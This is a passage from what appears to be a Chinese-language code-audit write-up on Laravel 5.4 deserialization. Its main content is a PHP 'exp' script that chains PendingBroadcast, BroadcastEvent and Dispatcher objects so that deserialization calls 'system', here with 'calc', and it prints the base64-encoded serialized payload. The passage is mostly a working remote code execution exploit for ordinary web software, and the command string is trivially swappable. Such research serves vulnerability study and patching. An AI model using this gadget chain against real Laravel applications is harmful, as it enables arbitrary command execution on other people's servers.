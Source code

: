<img src="./Laravel5.4 反序列化代码审计/poc-5-5.png" alt="">

### exp
```php
<?php
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver = "system";
    }
}

namespace Illuminate\Broadcasting {
    use  Illuminate\Bus\Dispatcher;
    class BroadcastEvent {
        public $connection;
        public $event;
        public function __construct() {
            $this->event = "calc";
            $this->connection = $this->event;
        }
    }



    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```

<img src="./Laravel5.4 反序列化代码审计/poc-5-6.png" alt="">